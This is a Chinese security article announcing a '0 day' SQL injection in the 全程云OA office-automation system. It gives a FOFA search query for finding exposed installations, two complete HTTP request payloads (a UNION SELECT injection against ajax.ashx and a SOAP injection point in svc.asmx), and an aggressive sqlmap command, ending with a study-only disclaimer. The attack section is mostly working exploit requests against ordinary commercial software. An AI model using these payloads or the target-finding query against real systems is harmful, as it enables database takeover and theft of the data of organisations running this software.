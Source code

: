 #  【0 day】全程云OA SQL注入漏洞   
原创 安全透视镜  网络安全透视镜   2024-01-07 19:51  
  
**一、漏洞描述**  
  
系统介绍  
  
全程云OA为企业提供日常办公管理、公文管理、工作请示、汇报、档案、知识体系、预算控制等26个功能，超过100多个子模块。为企业内部提供高效、畅通的信息渠道，同时也能大力推动公司信息系统发展，提高企业的办公自动化程度和综合管理水平，加快企业信息的流通，提高企业市场竞争能力。  
  
该系统多个接口存在SQL注入漏洞，通过此漏洞攻击者可获取数据库权限，威胁企业数据安全；  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5VicpWUzRgu8aEllfJMB6xxUa25UM1ZvvfJ2U6FF6BpKovJCxxicIYUQ6nlwGicTCZV7IoFehcUtic1Q/640?wx_fmt=png&from=appmsg "")  
  
  
**二、网络空间搜索引擎搜索**  
  
  
fofa查询  
```
"全程云OA" || "images/yipeoplehover.png"
```  
  
  
**三、漏洞复现**  
  
ajax.ashx 注入  
```
POST /OA/common/mod/ajax.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 206

dll=DispartSell_Core.dll&class=DispartSell_Core.BaseData.DrpDataManager&method=GetProductById&id=1 UNION ALL SELECT 1,@@version,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29 -- A

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5VicpWUzRgu8aEllfJMB6xx8d2CDAnrMDaqyNnLiah8Dj4eiccmFfJerCsWENXFzJaGQpQiawFibiafBsw/640?wx_fmt=png&from=appmsg "")  
  
  
svc.asmx 注入  
```
POST /oa/pm/svc.asmx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: ASP.NET_SessionId=svwjdwbhl4lv00iqktjh5url
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml; charset=utf-8
Content-Length: 511
SOAPAction: "http://tempuri.org/GetUsersInfo"

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">  <soap:Body>    <GetUsersInfo xmlns="http://tempuri.org/">      <userIdList>*
</userIdList>    </GetUsersInfo>  </soap:Body></soap:Envelope>

```  
  
  
sqlmap 注入  
```
python  sqlmap.py  -r post.txt --batch --level 4 --risk 3
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5VicpWUzRgu8aEllfJMB6xxkib6Wa455YTJHcmD4V64n4RjrnNH0RVTfyH7ib8sgO8S0LWIxGj6aR8A/640?wx_fmt=png&from=appmsg "")  
  
  
**四、漏洞检测**  
  
pocsuite3 漏洞检测  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5VicpWUzRgu8aEllfJMB6xxN2mMLQ6IAeibR7hLKsYclW8qygVQNUPPNpYEQqyQPgALAZThCnVicxNA/640?wx_fmt=png&from=appmsg "")  
# 文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5bU6uhMX5jh36Q87KR0HDibicicWMKRQogIa5uDmcntAKg8pgsicJXpWnGQbsVytkqrzcaqN7tQtXgBA/640?wx_fmt=png&from=appmsg "")  
  
****  
  
